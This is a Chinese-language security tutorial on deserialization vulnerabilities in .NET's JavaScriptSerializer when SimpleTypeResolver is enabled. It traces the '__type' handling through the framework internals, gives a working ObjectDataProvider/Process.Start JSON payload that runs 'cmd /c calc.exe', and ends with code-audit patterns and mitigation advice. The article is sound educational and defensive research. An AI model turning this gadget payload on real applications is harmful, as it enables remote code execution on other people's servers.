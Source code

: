 > 原文链接: https://www.anquanke.com//post/id/173652 


# .NET高级代码审计（第四课） JavaScriptSerializer反序列化漏洞


                                阅读量   
                                **264592**
                            
                        |
                        
                                                                                    



[![](https://p0.ssl.qhimg.com/t01d0a856ecdbc151f3.jpg)](https://p0.ssl.qhimg.com/t01d0a856ecdbc151f3.jpg)



作者：Ivan1ee@360云影实验室

## 0X00 前言

在.NET处理 Ajax应用的时候，通常序列化功能由JavaScriptSerializer类提供，它是.NET2.0之后内部实现的序列化功能的类，位于命名空间System.Web.Script.Serialization、通过System.Web.Extensions引用，让开发者轻松实现.Net中所有类型和Json数据之间的转换，但在某些场景下开发者使用Deserialize 或DeserializeObject方法处理不安全的Json数据时会造成反序列化攻击从而实现远程RCE漏洞，本文笔者从原理和代码审计的视角做了相关介绍和复现。

[![](https://p3.ssl.qhimg.com/dm/1024_342_/t01e38535c7015d653a.png)](https://p3.ssl.qhimg.com/dm/1024_342_/t01e38535c7015d653a.png)



## 0X01 JavaScriptSerializer序列化

下面先来看这个系列课程中经典的一段代码：

[![](https://p2.ssl.qhimg.com/t01dff9a082ed31ce45.png)](https://p2.ssl.qhimg.com/t01dff9a082ed31ce45.png)

TestClass类定义了三个成员，并实现了一个静态方法ClassMethod启动进程。 序列化通过创建对象实例分别给成员赋值

[![](https://p2.ssl.qhimg.com/t017a8977d55123dbf1.png)](https://p2.ssl.qhimg.com/t017a8977d55123dbf1.png)

使用JavaScriptSerializer类中的Serialize方法非常方便的实现.NET对象与Json数据之间的转化，笔者定义TestClass对象，常规下使用Serialize得到序列化后的Json

```
`{`"Classname":"360","Name":"Ivan1ee","Age":18`}`
```

从之前介绍过其它组件反序列化漏洞原理得知需要 __type这个Key的值，要得到这个Value就必须得到程序集全标识（包括程序集名称、版本、语言文化和公钥），那么在JavaScriptSerializer中可以通过实例化SimpleTypeResolver类，作用是为托管类型提供类型解析器，可在序列化字符串中自定义类型的元数据程序集限定名称。笔者将代码改写添加类型解析器

```
JavaScriptSerializer jss = new JavaScriptSerializer(new SimpleTypeResolver());
```

这次序列化输出程序集的完整标识，如下

```
`{`"__type":"WpfApp1.TestClass, WpfApp1, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null","Classname":"360","Name":"Ivan1ee","Age":18`}`
```



## 0x02 JavaScriptSerializer反序列化

### 2.1、反序列化用法

反序列化过程就是将Json数据转换为对象，在JavaScriptSerializer类中创建对象然后调用DeserializeObject或Deserialize方法实现的

[![](https://p3.ssl.qhimg.com/t018143e91ada43a8ca.png)](https://p3.ssl.qhimg.com/t018143e91ada43a8ca.png)

DeserializeObject方法只是在Deserialize方法上做了一层功能封装，重点来看Deserialize方法，代码中通过JavaScriptObjectDeserializer.BasicDeserialize方法返回object对象

[![](https://p0.ssl.qhimg.com/t013592d911c479672a.png)](https://p0.ssl.qhimg.com/t013592d911c479672a.png)

在BasicDeserialize内部又调用了DeserializeInternal方法，当需要转换为对象的时候会判断字典集合中是否包含了ServerTypeFieldName常量的Key，

[![](https://p0.ssl.qhimg.com/t01059a4ca1db6765b1.png)](https://p0.ssl.qhimg.com/t01059a4ca1db6765b1.png)

ServerTypeFieldName常量在JavaScriptSerializer类中定义的值为“__type”,

[![](https://p1.ssl.qhimg.com/t01b9526c95647e9640.png)](https://p1.ssl.qhimg.com/t01b9526c95647e9640.png)

剥茧抽丝，忽略掉非核心方法块ConvertObjectToType、ConvertObjectToTypeMain 、ConvertObjectToTypeInternal，最后定位到ConvertDictionaryToObject方法内

[![](https://p4.ssl.qhimg.com/t01498f289b007bb8d3.png)](https://p4.ssl.qhimg.com/t01498f289b007bb8d3.png)

这段代码首先判断ServerTypeFieldName存在值的话就输出赋值给对象s，第二步将对象s强制转换为字符串变量serverTypeName，第三步获取解析器中的实际类型，并且通过System.Activator的CreateInstance构造类型的实例

[![](https://p2.ssl.qhimg.com/t01d32147f3e600dce5.png)](https://p2.ssl.qhimg.com/t01d32147f3e600dce5.png)

Activator类提供了静态CreateInstance方法的几个重载版本，调用方法的时候既可以传递一个Type对象引用，也可以传递标识了类型的String，方法返回对新对象的引用。下图Demo展示了序列化和反序列化前后的效果：

[![](https://p5.ssl.qhimg.com/t015f7e60e16c33514b.png)](https://p5.ssl.qhimg.com/t015f7e60e16c33514b.png)

反序列化后得到对象的属性，打印输出当前的成员Name的值

### 2.2、打造Poc

默认情况下JavaScriptSerializer不会使用类型解析器，所以它是一个安全的序列化处理类，漏洞的触发点也是在于初始化JavaScriptSerializer类的实例的时候是否创建了SimpleTypeResolver类，如果创建了，并且反序列化的Json数据在可控的情况下就可以触发反序列化漏洞，借图来说明调用链过程

[![](https://p3.ssl.qhimg.com/t01c4bb65866be6ed1c.png)](https://p3.ssl.qhimg.com/t01c4bb65866be6ed1c.png)

笔者还是选择ObjectDataProvider类方便调用任意被引用类中的方法，具体有关此类的用法可以看一下《.NET高级代码审计（第一课） XmlSerializer反序列化漏洞》，因为Process.Start方法启动一个线程需要配置ProcessStartInfo类相关的属性，例如指定文件名、指定启动参数，所以首先得考虑序列化ProcessStartInfo，这块可参考

《.NET高级代码审计（第三课） Fastjson反序列化漏洞》 ，

之后对生成的数据做减法，去掉无关的System.RuntimeType、System.IntPtr数据，最终得到反序列化Poc

```
`{`
    '__type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'ObjectInstance':`{`
        '__type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        'StartInfo': `{`
            '__type':'System.Diagnostics.ProcessStartInfo, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
            'FileName':'cmd',
            'Arguments':'/c calc.exe'
        `}`
    `}`
`}`
```

[![](https://p0.ssl.qhimg.com/t01e51c6c578125be6a.png)](https://p0.ssl.qhimg.com/t01e51c6c578125be6a.png)笔者编写了触发代码，用Deserialize&lt;Object&gt;反序列化Json成功弹出计算器。

[![](https://p0.ssl.qhimg.com/t0110462d3498e32c3e.png)](https://p0.ssl.qhimg.com/t0110462d3498e32c3e.png)



## 0x03 代码审计视角

### 3.1、Deserialize

从代码审计的角度其实很容易找到漏洞的污染点，通过前面几个小节的知识能发现需要满足一个关键条件new SimpleTypeResolver() ，再传入Json数据，就可被反序列化，例如下面的JsonHelper类

[![](https://p2.ssl.qhimg.com/t014edd25fb21895244.png)](https://p2.ssl.qhimg.com/t014edd25fb21895244.png)

攻击者只需要控制传入字符串参数input便可轻松实现反序列化漏洞攻击。Github上也存在大量的不安全案例代码

[![](https://p2.ssl.qhimg.com/t01760ab1b0b9f2dcf3.png)](https://p2.ssl.qhimg.com/t01760ab1b0b9f2dcf3.png)

### 3.2、DeserializeObject

JavaScriptSerializer还有一个反序列化方法DeserializeObject，这个方法同样可以触发漏洞，具体污染代码如下

[![](https://p3.ssl.qhimg.com/t01a098762bfbae4191.png)](https://p3.ssl.qhimg.com/t01a098762bfbae4191.png)



## 0x04 案例复盘

最后再通过下面案例来复盘整个过程，全程展示在VS里调试里通过反序列化漏洞弹出计算器。
1. 输入[http://localhost:5651/Default](http://localhost:5651/Default) Post加载value值
[![](https://p1.ssl.qhimg.com/t016fd40c606c0324f8.png)](https://p1.ssl.qhimg.com/t016fd40c606c0324f8.png)
1. 通过DeserializeObject反序列化 ，并弹出计算器
[![](https://p4.ssl.qhimg.com/t0121c7e7bc6819ab2e.png)](https://p4.ssl.qhimg.com/t0121c7e7bc6819ab2e.png)

最后附上动态效果图

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_502_/t018361f91b95b1adec.gif)



## 0x05 总结

JavaScriptSerializer凭借微软自身提供的优势，在实际开发中使用率还是比较高的，只要没有使用类型解析器或者将类型解析器配置为白名单中的有效类型就可以防止反序列化攻击（默认就是安全的序列化器），对于攻击者来说实际场景下估计利用概率不算高，毕竟很多开发者不会使用SimpleTypeResolver类去处理数据。最后.NET反序列化系列课程笔者会同步到 [https://github.com/Ivan1ee/](https://github.com/Ivan1ee/) 、[https://ivan1ee.gitbook.io/](https://ivan1ee.gitbook.io/) ，后续笔者将陆续推出高质量的.NET反序列化漏洞文章，欢迎大伙持续关注，交流，更多的.NET安全和技巧可关注实验室公众号。

[![](https://p4.ssl.qhimg.com/t0134fa7c0eb2532569.png)](https://p4.ssl.qhimg.com/t0134fa7c0eb2532569.png)
